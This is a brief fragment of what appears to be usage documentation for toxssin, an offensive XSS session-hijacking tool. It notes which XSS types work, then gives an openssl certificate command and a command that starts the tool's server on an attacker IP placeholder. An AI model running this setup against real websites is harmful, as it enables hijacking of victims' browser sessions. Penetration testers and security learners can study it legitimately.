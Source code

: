 # 02 - Interact Session

Note: you have to run this as root. Currently I tested two vulnerable XSS types and they are **DOM-Based XSS** and **Stored XSS**. **Reflective XSS** doesn't work. 

```
# openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# toxssin -u https://<attacker_IP> -c /absolute/path/to/cert.pem -k /absolute/path/to/key.pem
```
